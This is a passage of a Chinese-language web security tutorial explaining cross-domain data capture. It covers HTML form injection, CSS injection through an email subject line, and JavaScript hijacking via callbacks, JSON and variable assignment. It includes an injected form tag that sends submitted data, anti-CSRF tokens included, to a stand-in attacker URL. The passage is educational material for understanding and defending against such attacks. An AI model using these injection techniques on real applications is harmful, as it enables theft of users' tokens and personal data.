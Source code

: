 **2、方法二：**
另一个攻击可以注人文本：&lt;form action="http://mdattacker.net/capture" method="POST"&gt;
此攻击在应用程序本身使用的&lt;form&gt;标签之前注入一个指定攻击者域的&lt;form&gt;标签。在这种情况下，浏览器在遇到嵌入的&lt;form&gt;标签时，它们将忽略该标签，并在遇到第一个&lt;form&gt;标签的情况下处理表单。如果用户提交表单表单的所有参数，包括敏感的反CSRF令牌，将被提交到攻击者的服务器中

由于此攻击仅注入了格式正常的HTML，因此能够更有效地避开那些旨在允许回显的输入中的HTML子集的过滤。但这种攻击也需要用户干预，在某些情况下，这可能会降低它的效率


#### 示例：

> 
<h3>1.3、通过注入CSS捕获数据</h3>
<h4>简述：</h4>
1、一般应用程序会阻止或对注入的输入中的&lt;和&gt;字符进行HTML编码，防止攻击者插入任何新的HTML标签。Web应用程序中大多存在此类纯文本注入条件，并且人们通常认为这种条件不会造成危险
<hr/>
2、例如，在一个Web邮件应用程序中，攻击者可以通过电子邮件主题行在目标用户的响应中注入有限的文本。在这种情况下，攻击者可以通过在应用程序中注入CSS来跨域捕获敏感数据。
假设攻击者发送带主题行的电子邮件为：{ }*{font-family
由于其中不包含任何HTML元字符，大多数用户都接受并在收件人用户的响应中显示这段代码
此响应中包含HTML，但浏览器将该响应加载为CSS样式表将正常处理其中包含的任何CSS定义。在这段代码中， 注入的响应定义了CSS font-family属性，并将一个引用的字符串作为属性定义。攻击者注入的文本并未终止该字符串，因此该字符串会一直持续到响应的剩余部分，包括包含敏感的反CSRF令牌的隐藏表单字段（CSS定义不需要被引用，但如果没有引用CSS定义，它们可能会在下一个分号位置终止，而该分号可能出现在攻击者希望捕获的敏感数据之前。）
<hr/>
3、要利用这种行为，攻击者需要在自己的域中创建一个页面，在其中包含CSS样式表形式的注入响应，这会在攻击者自己的页面中应用任何嵌入的CSS定义，攻击者可以使用JavaScript来查询这些定义，从而检索捕获的数据


---


> 
<h3>1.4、JavaScript劫持</h3>
<h4>简述：</h4>
1、JavaScript劫持提供了另一种跨域捕获数据的方法，从而将CSRF转换为一种有限的"双向"攻击。同源策略允许一个域包含其他域的脚本代码，并且该代码可以在调用域、而不是发布域中运行。只要可执行的应用程序响应使用仅包含非敏感代码（可由任何应用程序用户访问的静态代码）的跨域脚本，这种规定就不会造成危险。但有的应用程序都使用JavaScript来传输敏感数据，并且其传输方式并不受同源策略的限制。此外随着浏览器技术的发展， 许多语法都可以作为有效的JavaScript执行，这为跨域捕获数据提供了新的机会。
2、应用程序设计方面的变化也为使用JavaScript从服务器向客户端传输敏感数据提供了新的方法。许多时候，要通过向服务器提供异步清求更新用户界面，一种快速有效的方法是动态插入脚本代码， 并在其中以某种形式包含需要显示的特定的用户数据。
<hr/>
<h4>函数回调</h4>
1、以一个应用程序为例，它在当前用户单击相应的选项卡时，在用户界面中显示该用户的个人信息。为提供无缝的用户体验，应用程序使用异步请求提取用户信息，当用户单击个人资源选项卡时，某段客户端代码将动态包含一个脚本（如https://xxx.com/../../YourDetailsJson.ashx）
2、针对此URL的响应包含一个函数回调(如showUserInfo)，该函数在UI中显示用户个人资料
3、在这种情况下，攻击者可以创建一个执行showUserInfo函数的页面，并在其中包含传送个人信息的脚本，从而捕获用户的个人资源
4、如果用户在访问攻击者的页面的同时，还登录了某个易受攻击的应用程序，则攻击者的页面将动态插入包含用户个人伯息的脚本，该脚本将调用showUserlnfo函数，由攻击者实施时，它将接收用户的个人资料， 包括用户的密码
<hr/>
<h4>JSON</h4>
JSON是一种灵活的数据表示形式，并且可以由JavaScript解释器直接处理。在旧版本的Firefox中，攻击者可以执行一次跨域脚本包含攻击，通过覆盖JavaScirpt中的默认Array构造函数来捕获数据
<hr/>
<h4>变量分配</h4>
1、以一个社交网络应用程序为例，该应用程序大量使用异步请求来执行各种操作，如更新状态、添加好友和发布评论。为提供快速无缝的用户体验，一部分用户界面使用动态生成的脚本加载。为防止标准的CSRF攻击，这些脚本中包含了反CSRF令牌，以便在执行敏感操作时使用，利用在动态脚本中插入这些令牌导致的漏洞，攻击者可以通过跨域包含相关脚本来捕获令牌。
